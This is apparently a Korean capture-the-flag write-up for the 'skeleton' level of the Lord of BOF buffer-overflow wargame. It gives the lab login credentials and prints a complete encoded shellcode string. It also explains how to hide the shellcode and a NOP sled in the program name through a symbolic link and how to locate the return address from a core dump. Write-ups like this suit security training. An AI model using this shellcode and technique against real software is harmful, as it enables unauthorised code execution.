





# [LOB] skeleton Write-up


```
login : vampire
Password : music world
```

위의 계정으로 로그인하면 접속된다.

이번 문제의 소스코드는 다음과 같다.



이번 문제에서는 argv를 다 초기화한다. 하지만 스택 바닥쪽에 프로그램 실행명은 초기화되지 않는다. 한 번 확인해보자.

```
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```
사용한 쉘코드는 위에 있다.



쉘코드+NOP(100byte)로 심볼릭 링크를 복사한 파일에 걸어주었다. 리턴주소를 이상하게 주어 core dump를 떠 분석해보았다. 



확인해보면 쉘코드와 NOP을 확인할 수 있다. 쉘코드의 시작 주소는 `0xbfffff67`이다. 





심볼릭 링크를 삭제하고, skeleton에 다시 걸어주었다.


